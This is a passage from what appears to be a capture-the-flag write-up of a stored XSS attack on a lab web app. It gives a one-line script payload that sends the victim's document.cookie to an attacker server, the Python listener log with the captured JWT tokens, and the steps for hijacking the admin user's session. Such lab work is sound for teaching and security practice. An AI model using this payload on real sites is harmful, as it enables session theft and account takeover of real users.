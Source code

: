 I'll use a payload from this github page "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md":
(The Silent One-Liner)
```html
<script>var i=new Image;i.src="http://[IP]:[PORT]/?"+document.cookie;</script>
```
It needs to be modified to my "tun0" IP, and port.

Before add the listing, I'll establish python3 server on my attacker machine:
```bash
python3 -m http.server
```
I'll add the payload:

![image](https://user-images.githubusercontent.com/114166939/232113668-933bb211-5ef9-4292-883c-694e716b164e.png)

Report this listing:

![image](https://user-images.githubusercontent.com/114166939/232113844-a5f8b17e-37d0-486d-bd42-e5f3e1ef06e2.png)

Refresh, and let's take a look at my python3 server!

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.14.50.11 - - [14/Apr/2023 13:20:31] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjgxNDg4MzMyfQ.LOu-eEsb_vaK-pZ8xZjVHvaVNuFRjRzyq3yAps2tAnY HTTP/1.1" 200 -

10.10.243.219 - - [14/Apr/2023 13:21:26] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODE0OTI4ODd9.YI1C9_Iu632z1-0xDX1jm0DUeFwiGgqiDR1joEGcKzw HTTP/1.1" 200 -
```

The first one is my current user cookie, the same one as I checked in my cookie manager extension.

The second request I got have different cookie!
Probably the admin's user cookie, I'll check it in CyberChef:

![image](https://user-images.githubusercontent.com/114166939/232114890-be430831-c00a-4d33-a986-4fdc666f62ee.png)

It's michael's cookie.

Now I can change the current user cookie to michael's user cookie - I'll do it with cookie manager:

Copy the token from the request, delete the current cookie, paste michael's cookie and save.

![image](https://user-images.githubusercontent.com/114166939/232116054-9115e1c8-2f66-41e3-af69-4716606596f0.png)


Refresh the home page:

![image](https://user-images.githubusercontent.com/114166939/232116191-be8c47ea-9607-4b36-a73f-d35913a8fb9e.png)

There is a new option in the website, "Administration panel", it redirect to the "/admin" directory.

